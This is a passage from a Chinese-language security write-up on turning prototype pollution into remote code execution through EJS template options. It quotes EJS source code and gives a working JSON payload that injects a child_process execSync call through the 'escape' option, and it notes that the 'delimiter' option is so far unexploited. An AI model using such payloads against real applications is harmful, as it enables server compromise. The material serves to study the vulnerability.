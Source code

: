 ```bash
  rethrow(e, __lines, __filename, __line, escapeFn);
}
```

## 第五处：escape 字段 RCE

和 escapeFuntion 是一样的地方：

```bash
options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
```

这里就直接给出 payload：

```bash
{
    "__proto__":{
        "client":1,
        "escape":"escapeFn;global.process.mainModule.require('child_process').execSync('calc')"
    }
}
```

## 第六处：delimiter 字段

delimiter 字段下存在这里对 source 的拼接，但是因为存在 switch 的一个验证，line 是写死的内容如果要想进入 case 的话，需要我们构造的 delimiter 字段和 line 进行匹配才能够进入 source 拼接，暂时还没有想到可控的方式

```bash
options.delimiter = opts.delimiter || exports.delimiter || _DEFAULT_DELIMITER;

scanLine: function (line) {
    var d = this.opts.delimiter;
    var o = this.opts.openDelimiter;
    var c = this.opts.closeDelimiter;

    newLineCount = (line.split('\n').length - 1);

    switch (line) {
    ......
    case o + d + d:
      this.mode = Template.modes.LITERAL;
      this.source += '    ; __append("' + line.replace(o + d + d, o + d) + '")' + '\n';
      break;
    case d + d + c:
      this.mode = Template.modes.LITERAL;
      this.source += '    ; __append("' + line.replace(d + d + c, d + c) + '")' + '\n';
      break;
```

## jade 模板引擎注入 RCE：

index.js
